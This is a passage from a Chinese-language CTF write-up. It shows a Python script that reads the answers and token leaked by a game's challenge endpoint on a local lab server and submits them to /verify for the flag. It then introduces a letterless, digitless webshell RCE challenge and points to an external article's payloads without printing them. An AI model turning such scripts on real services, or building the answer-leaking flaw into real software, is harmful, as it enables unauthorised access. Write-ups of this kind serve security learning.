可以看到，向  `/verify` 端点提交 answers 和 token 就可以拿到 Flag，我们继续找关于这两个变量（realCode, Mytoken）的信息。



可以看到，在启动游戏时后端将答案和 Token 一并通过 get 请求传给前端。在确定参数后，编写 python 脚本 getFlag。注意保持在一个 Session 中进行两个请求。


```python
import requests

s = requests.Session()
challenge = s.get('http://127.0.0.1:46407/get_challenge?count=9').json()
result = s.post('http://127.0.0.1:46407/verify', json={
  "token": challenge['token'],
  "answers": challenge['numbers']
})
print(result.text)
```

---

## [无数字字母 RCE] 这是...Webshell？(及 Revenge)

关于无数字字母 RCE，p神有详细的思考过程和思路记录：

[https://www.qwesec.com/2024/03/noLettersOrNumbersRCE.html#%E9%97%AE%E9%A2%982](https://www.qwesec.com/2024/03/noLettersOrNumbersRCE.html#%E9%97%AE%E9%A2%982)

文中的 payload 可以直接使用，故不再赘述。
